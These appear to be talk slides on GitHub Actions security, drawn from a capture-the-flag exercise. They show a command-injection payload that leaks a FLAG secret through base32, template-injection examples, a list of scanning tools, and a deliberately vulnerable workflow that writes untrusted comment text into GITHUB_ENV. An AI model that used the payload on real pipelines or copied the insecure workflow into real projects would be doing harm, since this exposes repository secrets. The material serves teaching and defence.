 ```yaml
        PAYLOAD: Hi'; echo "${FLAG}" | base32 ;echo 'Here
```

---

## More {{ mustache }}

```yaml
- name: Azure CLI script
    uses: azure/cli@v2
    with:
    inlineScript: echo "mustachable"
- name: Github script
uses: actions/github-script@v7
  with:
    script: return "I will be mustachable"
```
---

## Toolings

```yaml
semgrep: --config p/github-actions
codeQl: 
octoscan: https://github.com/synacktiv/octoscan
poutine: https://github.com/boostsecurityio/poutine
Gato-X: https://github.com/AdnaneKhan/Gato-X

```

---

{{% slide notes="Talk about line feed." %}}

## Unit test

```yaml
# From: https://github.com/Nebouh/tdf-ctf-cicd/blob/main/.github/workflows/chall2.yml
name: 🔒 Chall 2 - Look mom, i know how to use PIP
on:issue_comment: # Trigger
permissions:contents: write # Loot ?
jobs:
  create_release_from_issue:
    steps:
      - uses: actions/checkout@v4 # Will checkout default branch
      - run: |
          CLEAN_RELEASE=$(printf '%s' "$COMMENT_CONTENT" | cut -c 1-100)
          echo "RELEASE_MESSAGE=$CLEAN_RELEASE" >> $GITHUB_ENV
        env:
          COMMENT_CONTENT: ${{ github.event.comment.body }}
      - name: Run my unit tests
        run: |
          pip install -r requirements.txt
          python3 -m unittest run_tests.py -v
        env:
          FLAG: ${{ secrets.FLAG }} # another loot !
```
---
